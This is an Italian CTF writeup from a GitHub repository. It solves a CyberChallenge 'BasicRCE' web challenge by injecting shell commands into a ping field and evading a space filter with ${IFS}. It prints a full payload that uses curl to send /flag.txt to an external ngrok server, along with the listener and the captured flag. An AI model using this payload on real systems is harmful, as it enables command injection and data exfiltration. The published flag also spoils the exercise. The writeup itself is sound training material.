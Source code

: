 # CTF Writeups & HTB Machines 💀

In questo repository archiviamo tutte le writeups di CTF (Capture The Flag) e macchine HTB (Hack The Box) che ho completato.

## Contenuti 📚
- **CTF Writeups**: Soluzioni dettagliate delle sfide CTF
- **HTB Machines**: Guide complete per le macchine Hack The Box

## Contributi 🤝
Per contribuire con un writeup, contattami via email: `luca.crippa05@gmail.com`

## Licenza ⚖️
Repository condivisa per scopi educativi. Rispetta sempre le policy delle piattaforme quando condividi materiale.

---

# Writeup: WS_1.01 - BasicRCE

## Overview
- **Categoria:** Web
- **Autore:** bonaff
- **Difficoltà:** 495
- **Stato:** Up (last checked: 11 minutes ago)
- **URL:** [http://basicrce.challs.cyberchallenge.it](http://basicrce.challs.cyberchallenge.it)

## Descrizione 📝
La challenge presenta una pagina web con un campo di input e un pulsante "Ping!". Il titolo stesso suggerisce la presenza di una vulnerabilità di **Remote Code Execution (RCE)**.

Il problema principale è che:
- **Non c'è output diretto**.
- **Non si possono usare spazi**.

L'obiettivo è trovare un modo per leggere il contenuto di `/flag.txt` e riceverlo su un server esterno.

## Soluzione 🎯

### 1. Identificazione della Vulnerabilità
Il campo di input accetta un valore che viene passato a un comando `ping`. Se non ci sono adeguate misure di sicurezza, è possibile concatenare altri comandi usando `;` o `&&`.

Dal titolo e dai test eseguiti, risulta che:
- Il comando viene eseguito direttamente nel sistema.
- Gli spazi non sono consentiti, ma possono essere aggirati con `${IFS}`.

### 2. Creazione del Payload
Poiché il server non restituisce output, dobbiamo inviare la flag a un server esterno usando `curl`.

Il payload finale è:
```sh
www.google.com;${IFS}curl${IFS}-X${IFS}GET${IFS}"https://60bf-94-32-176-238.ngrok-free.app?flag=$(cat${IFS}/flag.txt)"
```
**Spiegazione:**
- `www.google.com;` → esegue il comando `ping` su Google e poi continua con il nostro exploit.
- `${IFS}` → sostituisce gli spazi, aggirando il filtro.
- `curl -X GET "URL?flag=$(cat /flag.txt)"` → legge la flag e la invia al nostro server.

### 3. Ricezione della Flag
Su un server Ngrok, avviamo un listener per intercettare la richiesta:
```sh
python3 -m http.server 80
```
Quando il payload viene eseguito, riceviamo la risposta con la flag:
```
127.0.0.1 - - [20/Feb/2025 03:55:51] "GET /?flag=CCITP1ng_P0ng_s3micol0n_g3t_fl4g HTTP/1.1" 200 -
```

## Flag 🏁
```
CCIT{P1ng_P0ng_s3micol0n_g3t_fl4g}
```

## Lezioni Apprese 📚
- **Remote Code Execution (RCE)**: L'inserimento di comandi non sanitizzati permette l'esecuzione arbitraria sul server.
- **Evitare il filtro sugli spazi**: `${IFS}` è un metodo efficace per aggirare il blocco degli spazi.
- **Esfiltrazione dei dati**: Se l'output è bloccato, è possibile usare `curl` per inviare le informazioni a un server esterno.

## Tools Utilizzati 🛠️
- **Burp Suite**: Per testare le iniezioni.
- **Ngrok**: Per ricevere la flag.
- **Python HTTP Server**: Per catturare le richieste.

---

*Writeup by Luca Crippa - Last Updated: 2024*
